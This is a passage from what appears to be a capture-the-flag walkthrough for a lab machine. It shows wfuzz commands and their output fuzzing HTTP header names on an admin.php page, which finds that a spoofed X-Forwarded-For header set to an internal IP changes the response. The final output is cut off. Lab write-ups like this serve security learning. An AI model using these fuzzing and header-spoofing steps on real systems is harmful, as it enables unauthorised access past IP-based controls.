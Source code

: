 ```
000000073:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000054:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000137:   501        6 L      26 W       343 Ch      "Transfer-Encoding"
000000150:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000144:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"                                                                                                                                                  

Total time: 2.707290
Processed Requests: 162
Filtered Requests: 154
Requests/sec.: 59.83842
```

- Nothing special, but remembering the hint we saw about the proxy, I set it to box ip
```
└─$ wfuzz -u http://10.10.10.167/admin.php -w headers -H 'FUZZ: 10.10.10.167' --hh 89
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 162

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000029:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000032:   400        6 L      34 W       374 Ch      "Content-Length"
000000004:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000073:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000054:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000150:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000144:   400        6 L      28 W       339 Ch      "Non-standard Deprecated"
000000137:   501        6 L      26 W       343 Ch      "Transfer-Encoding"

Total time: 2.680402
Processed Requests: 162
Filtered Requests: 154
Requests/sec.: 60.43868
```

- Nothing again, but then I tried `192.168.4.28`, which we saw in comments
  - We received a new header: `X-Forwarded-For`, which return 7933 chars
```
└─$ wfuzz -u http://10.10.10.167/admin.php -w headers -H 'FUZZ: 192.168.4.28' --hh 89
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 162

=====================================================================
```